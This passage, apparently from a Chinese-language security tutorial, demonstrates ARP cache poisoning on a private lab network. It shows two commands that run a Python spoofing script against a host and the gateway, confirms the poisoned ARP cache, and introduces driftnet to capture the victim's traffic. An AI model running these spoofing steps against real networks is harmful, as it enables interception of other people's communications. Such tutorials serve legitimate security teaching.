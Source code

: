![](img/16.png)

下面我们打开终端，对192.168.1.18进行欺骗，告诉它网关为192.168.1.102。

```
python arp1.py -i eth0 -t 192.168.1.18 192.168.1.102
```

再打开一个终端，对网关进行欺骗，告诉网关，192.168.1.18对应的主机为192.168.1.102。
```
python arp1.py -i eth0 -t 192.168.1.1 192.168.1.18
```
一段时间之后，我们发现，192.168.1.18的arp缓存发生了变化：

![](img/17.png)

对比之前的arp缓存查询结果，可以判定arp毒化成功。下面我们来看一下能发捕获到1.18的外网请求信息，使用常用的测试工具driftnet。
